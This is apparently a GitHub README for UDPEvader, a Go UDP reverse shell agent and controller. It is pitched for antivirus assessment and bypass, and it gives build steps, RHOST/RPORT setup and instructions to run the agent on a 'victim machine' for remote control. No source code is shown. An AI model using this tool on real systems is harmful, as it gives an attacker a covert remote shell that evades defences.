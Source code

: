 # UDPEvader
UDPEvader is a platform independent custom UDP-based reverse shell agent and controller, designed to allow users to  assist in assessing and potentially bypassing antivirus software. Allows to dynamically set their custom port and listener prompts.

## Features

- UDP-based reverse shell agent and controller
- Customizable listener prompts
- Antivirus assessment
- Can be used as a potential bypass technique

## Usage

1. Clone the UDPEvader repository:  

   gh repo clone diljith369/UDPEvader

2. Compile and build the UDPEvader agent and controller:
   - cd UDPEvader/src
   - Update &agentprops.UDPShellProps{
		RemoteServer: "RHOST",
		UDPPort:      "RPORT",
	} in udpagent.go file, replace RHOST and RPORT with controller server IP and Port, then build agent 
   - go build udpagent.go   
   - go build udplistener.go

3. Start the listener :
   - udplistener.exe --lport LPORT --prompt "YourPrompt" or 
   - udplistener.exe (In this case LPORT will be 8080 and prompt will be <<@dcrypT0R~UDP>>)

4. Run the agent on your test/ victim machine , once the agent is connected, you can interact with the target machine   through the controller's listener prompts.

5. Assess and test your antivirus or explore potential bypass techniques using the UDPEvader agent.

## Disclaimer
UDPEvader is intended for educational and assessment purposes only. Misuse of this tool may violate applicable laws and regulations. Use it responsibly and at your own risk.

## Suggestions
If you find any issues or have suggestions for improvements, feel free to open an issue.
## Built With
Go Lang
## Author
Initial work - (https://github.com/diljith369)